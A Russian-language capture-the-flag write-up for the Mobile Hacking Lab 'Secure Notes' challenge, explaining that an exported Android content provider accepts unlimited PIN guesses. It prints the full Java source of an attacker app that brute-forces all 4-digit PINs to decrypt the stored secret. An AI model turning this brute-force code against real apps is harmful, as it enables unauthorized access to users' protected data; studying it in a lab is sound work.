






Задание - [Secure Notes - Android Content Provider Challenge](https://www.mobilehackinglab.com/path-player?courseid=lab-secure-notes&unit=65590c1dc3e1483ad00af510Unit)

**Работа MainActivity:**

Приложение ожидает ввод пин-кода:




После ввода пин-кода, делается запрос к контент-провайдеру в методе `querySecretProvider` по URI, равному: `content://com.mobilehackinglab.securenotes.secretprovider` 
и selection аргументом, равным `pin=PIN`, где PIN - это введенный пользователем пин-код. После получения результата запроса, проверяется индекс колонки `Secret`, и если оно не равно null и -1, то извлекает ее значение (видимо флаг), в противном случае выводит текст `[ERROR: Incorrect PIN]`. Код этого метода:



**Работа SecretDataProvider**

Полученный пин-код используется для создания ключа для расшифровки секрета (`key = pin + salt`) алгоритмом AES CBC. Все остальные необходимые данные (iv, salt, inetCount, encyptedSecret) хранятся в `assets/config.properties`:



`MatrixCursor` создает столбец `Secret` только в том случае, когда расшифровка `encyptedSecret` прошла успешно, т.е. метод `decryptSecret(String pin)` вернет не null:



Уязвимость состоит в том, что контент провайдер является экспортируемым и никак не проверяет количество попыток ввода пин-кода, так что пин-код из 4х цифр можно достаточно быстро перебрать с помощью атакующего приложения, либо локально извлечь все значения для расшифровки и просмотреть полученные значения (важно отметить, что результат, не равный null будет получатся во многих случаях, т.к. расшифрованный текст переводится в кодировку UTF-8, поэтому необходимо просмотреть все полученные варианты). 

Для решения было реализовано атакующее приложение, результат его работы:



Проверка пин-кода:



Код `MainActivity` атакующего приложения:
```java
public class MainActivity extends AppCompatActivity {  
  
    private static final String CONTENT_URI = "content://com.mobilehackinglab.securenotes.secretprovider";  
    private TextView resultView;  
    private Button bruteForceButton;  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        EdgeToEdge.enable(this);  
        setContentView(R.layout.activity_main);  
  
        resultView = findViewById(R.id.resultView);  
        bruteForceButton = findViewById(R.id.bruteForceButton);  
  
        bruteForceButton.setOnClickListener(v -> {  
            bruteForceButton.setEnabled(false);  
            new BruteForceTask().execute();  
        });  
    }  
  
    private class BruteForceTask extends AsyncTask<Void, String, List<String>> {  
        @Override  
        protected List<String> doInBackground(Void... voids) {  
            List<String> foundSecrets = new ArrayList<>();  
  
            for (int pin = 0; pin <= 9999; pin++) {  
                String formattedPin = String.format("%04d", pin);
                String secret = querySecretProvider(formattedPin);  
  
                if (secret != null) {
                    foundSecrets.add("PIN: " + formattedPin + " → Secret: " + secret);  
                    publishProgress("Found: " + formattedPin + " → " + secret);  
                }  
            }  
            return foundSecrets;  
        }  
  
        @Override  
        protected void onProgressUpdate(String... values) {  
            resultView.append(values[0] + "\n");  
        }  
  
        @Override  
        protected void onPostExecute(List<String> results) {  
            if (results.isEmpty()) {  
                resultView.setText("Bruteforce finished. No valid PINs found.");  
            } else {  
                resultView.append("\nBruteforce completed.");  
            }  
            bruteForceButton.setEnabled(true);  
        }  
    }  
  
    private String querySecretProvider(String pin) {  
        Uri uri = Uri.parse(CONTENT_URI);  
        String selection = "pin=" + pin;  
  
        try (Cursor cursor = getContentResolver().query(uri, null, selection, null, null)) {  
            if (cursor != null && cursor.moveToFirst()) {  
                int columnIndex = cursor.getColumnIndex("Secret");  
                if (columnIndex != -1) {  
                    return cursor.getString(columnIndex);  
                }  
            }  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
        return null;  
    }  
}
```